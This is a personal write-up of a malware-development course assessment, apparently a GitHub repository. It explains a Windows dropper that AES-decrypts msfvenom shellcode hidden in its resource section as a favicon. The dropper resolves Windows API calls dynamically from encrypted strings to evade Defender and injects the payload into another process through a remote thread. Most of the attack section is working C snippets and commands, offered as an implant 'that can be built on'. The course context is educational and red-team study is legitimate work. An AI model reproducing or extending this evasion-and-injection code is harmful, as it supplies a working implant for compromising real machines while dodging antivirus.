





This is my writeup for the Sektor7 malware essentials course.

Its a simple dropper implant that executes an msfvenom payload in another process using process injection. Theres also some basic attempts to hide it from Windows defender by using dynamic Win API resolution, and encrypting the strings used for calling Windows API's.

By using dynamic resolution of Win API calls theres no import table flagging the obvious malicious intent. And by encrypting the strings of the API calls theres no static analysis flagging it that way.

An overview of the dropper:
- Get payload from resource section
- Decrypt payload and Win API strings 
- Allocate memory in remote process 
- Write payload to the memory location
- Change memory location to be executable
- Execute memory using remote thread

Pretty straight forward implant that can be built on. 

## Payload generation
The course uses msfvenoms windows message box as the payload. Probably cause its easier to see things working rather than setup a listener.

```bash
msfvenom -a x64 -p windows/messagebox --platform windows TEXT="Hi from Red Team Operator!" TITLE="RTO: MalDev" -f raw -o msgbox64.bin
```

This sets the architecture, payload, platform and some optional text to add. Outputted as raw shellcode stored in a binary file.

If we do a hex dump we can see the string "Hi from Red Team Operator!".



## Encryption
We want to encrypt the payload and all the strings used to make API calls. msfvenom payloads are picked up pretty easily by AV's, and we want to dynamically resolve Window API calls so that AV doesn't pick them up either. 

The course provides an AES encryption python script, I've modified it so it also encrypts the Win API import strings used. 

[aesencrypt.py](https://github.com/cptpugwash/Sektor7-Malware-essentials-assessment/blob/main/aesencrypt.py)

This encrypts the binary shellcode, and the API strings. Then we copy the output and put it into the dropper.c file.

```c
// encrypted strings
unsigned char skernel32[] = { 0x78, ... };
...
```	

## dropper.c
### Decrypting Win API strings and payload
The first thing we want to do is decrypt the import strings so we can call Win API functions. We use a AESDecrypt function passing a pointer to the string and the key:

```c
// decrypts the encrypted strings using AES256 with key
void AESDecryptString() {
	AESDecrypt((char *) skernel32, sizeof(skernel32), key, sizeof(key));
	...
```

Now that the strings are decrypted we can dynamically resolve them using the `GetModuleHandle/GetProcAddress` method:

```c
void GetFunctionAddress() {
	pGetProcAddress = GetProcAddress(GetModuleHandle(skernel32), sGetProcAddress);
	...
```

Then we can call the functions using `pGetProcAddress()`.

Now that we have all the Win API functions ready to use we want to extract our encrypted payload stored in the resource section and decrypt it.

To setup the resource we have a `resources.h` file that contains a reference to our payload. In this case:

```c
#include "resources.h"
FAVICON_ICO RCDATA messageboxaesy.ico
```

We then extract it into memory and decrypt it.

```c
#include "resources.h"
...
	
// get payload from resource section
res = pFindResourceA(NULL, MAKEINTRESOURCE(FAVICON_ICO), RT_RCDATA);
resHandle = pLoadResource(NULL, res);
payload = (char *) pLockResource(resHandle);
payload_len = pSizeofResource(NULL, res);

// Allocate some buffer memory for the payload to be copied into 
exec_mem = pVirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
// Copy payload to new memory buffer
pRtlMoveMemory(exec_mem, payload, payload_len);

// decrypt it
AESDecrypt((char *) exec_mem, payload_len, key, sizeof(key));
```
Note we're only allocating memory that is `READWRITE` at the moment, AV will pick up if we set it as execute as well.

If we look in the processes memory we should see it decrypted. Here I'm just using x64dbg to go to the exec_mem memory location. We can see from the hex dump the message box text.



### Find target process and inject
Now we need to find a process to inject our payload into. I've used procexp64 from sysinternals as I'm on an ARM Windows VM, and the shellcode is in x64 so it needs to be injected into a x64 process.

We can update this later to be an encrypted string.

```c
pid = FindTarget("procexp64.exe");
if (pid) {
// print the PID of the target process
	printf("procexp64.exe PID = %d\n", pid);

	// try to open target process
	hProc = pOpenProcess( PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | 
					PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE,
					FALSE, (DWORD) pid);
```

`FindTarget()` isn't really interesting, its standard example stuff from the Win API docs. Basically searching through the processes till it matches a string and gets it PID. 

Then we try to open a handle to the process so we can create a thread within it.



The screenshot shows the dropper.exe has a handle to the target process.

### Injecting payload into remote process
The injection function is were we write the decrypted payload into the process and execute it using createthread.

```c
Inject(hProc, exec_mem, payload_len);
...

// allocate memory in the target process
pRemoteCode = pVirtualAllocEx(hProc, NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READ);
// copy the payload into the target process
pWriteProcessMemory(hProc, pRemoteCode, (PVOID)payload, (SIZE_T)payload_len, (SIZE_T *)NULL);
```

If we check the memory at `pRemoteCode` we will see the decrypted payload again.



Then we create the remote thread pointing to the memory location of our shellcode and execute it.

```c
// create a remote thread in the target process to execute the payload
hThread = pCreateRemoteThread(hProc, NULL, 0, pRemoteCode, NULL, 0, NULL);

if (hThread != NULL) {
	pWaitForSingleObject(hThread, 500);
	pCloseHandle(hThread);
	return 0;
	} 
```

Thats it, we clean up the handles and our payload should execute in the remote process.



A fairly straight forward implant that can be built on.